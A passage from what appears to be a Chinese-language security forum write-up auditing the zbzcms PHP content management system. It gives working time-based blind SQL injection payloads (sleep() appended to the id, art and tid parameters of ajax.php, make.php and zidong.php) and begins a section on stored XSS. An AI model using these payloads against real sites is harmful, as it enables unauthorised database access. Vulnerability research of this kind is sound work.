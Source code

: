 路径127.0.0.1/zbzcms.com/cms/common/php/ajax.php?run=ad&amp;id=1  
直接构造payload了：127.0.0.1/zbzcms.com/cms/common/php/ajax.php?run=ad&amp;id=1 and sleep(2)

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-7c79330b879dc5d6fbfe45af561d33eb9fac2a91.png)

也是可以延时盲注的

0x5第三处注入
--------

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-6d7a9d86fdf6d946ea65ee4293649d64258c5bab.png)

根跟进查看

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-3b33337c02b8d4c3c5917578e5e07bb48dd75557.png)

这直接妥妥的注入了 啥防护都没有  
直接构造payload：[http://127.0.0.1/zbzcms.com/cms/cms/include/make.php?php=1&amp;art=1%20and%20sleep(5](http://127.0.0.1/zbzcms.com/cms/cms/include/make.php?php=1&art=1%20and%20sleep(5))

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-df4f9c5d16a348ab9fc11f09f56f5a7b62af0ac2.png)

就不丢sqlmap演示了

0x6第四处注入
--------

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-334c5fd33ddc8bf777884f6bae5cca791788ba87.png)

我们跟进代码

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-45ff191b864f1472a773ff1431e197752974c1f9.png)

这里的问题出现在tid这个参数  
通过前面我们可以看到 如果if判断失败的话 进入else if 通过获取get传参 然后传入sql语句 这里也是没有任何防范  
但是这里需要简单闭合一下阔号  
我们构造payload：

```php
http://127.0.0.1/zbzcms.com/cms/cms/include/zidong.php?id=1&tid=3)+and+sleep(1)%23&laiyuan=0&sou=1&wid=1
```

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-4f376bb98bbc7be3a79994929b3265af3865ccc6.png)

这里tid参数的值还是有点点讲究 必须和数据库里面存的tid值其中之一是一样的

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-9a3c0711a7670981f5bf4d768077c7e9607c9e7a.png)

0x7第三处 前台存储xss
--------------

这个是在发现注入的时候看见的

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-d6174cb84b1623124e5abd96a12aef18a917a04a.png)
